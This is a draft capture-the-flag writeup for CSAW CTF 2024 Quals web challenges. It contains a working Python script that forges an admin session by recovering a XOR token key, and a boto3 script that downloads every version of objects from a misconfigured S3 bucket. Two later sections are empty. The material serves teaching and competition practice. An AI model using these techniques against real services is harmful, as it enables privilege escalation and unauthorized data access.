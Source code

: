 +++ 
draft = true
date = 2024-09-10T21:04:14+09:00
title = "CSAW CTF 2024 Quals Writeup"
description = ""
slug = "csaw-ctf-2024-quals-writeup"
authors = []
tags = ["CTF", "web", "steganography", "English"]
categories = []
externalLink = ""
series = []
+++

## Intro

I played CSAW CTF 2024 Quals with team Jejupork, and solved all web challs. Here's the writeup for [log me in]({{< ref "#log-me-in-web" >}}), [bucketwars]({{< ref "#bucketwars-web" >}}), [charlies angels]({{< ref "#charlies-angels-web" >}}) and [lost pyramid]({{< ref "#lost-pyramid-web" >}}).

## log me in (web)

Log me in was a simple flask application challenge with user registeration and login feature in it. The app will give flag if user's uid is 0(admin), but new user will always be registered as uid 1(user). 

After authentication, the app makes a token using custom encoding/decoding method to share. The encoding / decoding code is here.

```python
# Some cryptographic utilities
def encode(status: dict) -> str:
    try:
        plaintext = json.dumps(status).encode()
        out = b''
        for i,j in zip(plaintext, os.environ['ENCRYPT_KEY'].encode()):
            out += bytes([i^j])
        return bytes.hex(out)
    except Exception as s:
        LOG(s)
        return None

def decode(inp: str) -> dict:
    try:
        token = bytes.fromhex(inp)
        out = ''
        for i,j in zip(token, os.environ['ENCRYPT_KEY'].encode()):
            out += chr(i ^ j)
        user = json.loads(out)
        return user
    except Exception as s:
        LOG(s)
        return None
```

We can easily find out that `os.environ['ENCRYPT_KEY']` can be leaked by xoring  authentication token with json serialized user object. Thus, we can make arbitrary user object and elevate out uid to admin.

* Code
```python
import requests
import json

# URL = 'http://localhost:9996'
URL = 'https://logmein1.ctf.csaw.io'

def encode_json(username, displayname, uid):
    data = {
        'username': username,
        'displays': displayname,
        'uid': uid
    }
    return json.dumps(dict(data)).encode()

r = requests.post(URL + '/register', data={
    'username': 'somelongusername',
    'password': 'somelongpassword',
    'displayname': 'somelongdisplayname'
})

r = requests.post(URL + '/login', data={
    'username': 'somelongusername',
    'password': 'somelongpassword'
})

session = r.cookies['info']

session = bytes.fromhex(session)

message = encode_json('somelongusername', 'somelongdisplayname', 1)

key = b''

for i in range(len(message)):
    key += bytes([session[i] ^ message[i]])

message_to_change = encode_json('somelongusername', 'somelongdisplayname', 0)
new_session = b''
for i in range(len(message_to_change)):
    new_session += bytes([key[i] ^ message_to_change[i]])

r = requests.get(URL + '/user', cookies={'info': new_session.hex()})
print(r.text)
```

## bucketwars (web)

The callenge gave me only one link which lead to a static site. After some investigation, I found out that this site was served from AWS S3 bucket, and it seems that I should abuse malconfigured bucket policy to get more information. On the site there was a hint about bucket object versions, so I used `list_object_versions` api to crawl every version of objects.

```python
import boto3
import jq
import json
import os.path

s3 = boto3.client('s3')
bucket_name = 'bucketwars.ctf.csaw.io'

response = s3.list_object_versions(Bucket=bucket_name)

response = json.loads(json.dumps(response, default=str))
files = jq.compile('.Versions[]|{Key: .Key,VersionId: .VersionId}').input(response).all()

for file in files:
    print(file)
    response = s3.get_object(Bucket=bucket_name, Key=file['Key'], VersionId=file['VersionId'])
    filename, fileext = os.path.splitext(file['Key'])
    with open('files/' + filename + '_' + file['VersionId'] + fileext, 'wb') as f:
        f.write(response['Body'].read())
```



## charlies angels (web)

## lost pyramid (web)

